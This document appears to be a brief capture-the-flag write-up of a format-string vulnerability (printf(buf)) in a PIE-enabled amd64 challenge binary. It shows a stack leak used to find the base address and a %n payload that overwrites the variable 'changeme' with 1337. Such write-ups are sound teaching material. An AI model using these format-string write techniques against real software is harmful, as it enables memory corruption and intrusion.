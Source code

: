 **Read source code**
- `printf(buf);`: fsb
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
- So the idea is that change value of `changeme` to `1337`.
- Because `PIE enabled`, we have to find base addr
---  
***EPLOIT***
- Get address of `rsp_0x48` (%15$p)
- Calculate `base = rsp_0x48_leak - rsp_0x48_offset`
- Calculate `changeme = base + e.sym['changeme']`
```
payload = b'%1337c%8$n'
payload = payload.ljust(0x10, b'A') 
payload += p64(changeme)
```
- Stack
```
%1337c%8
$nAAAAAA
changeme
```
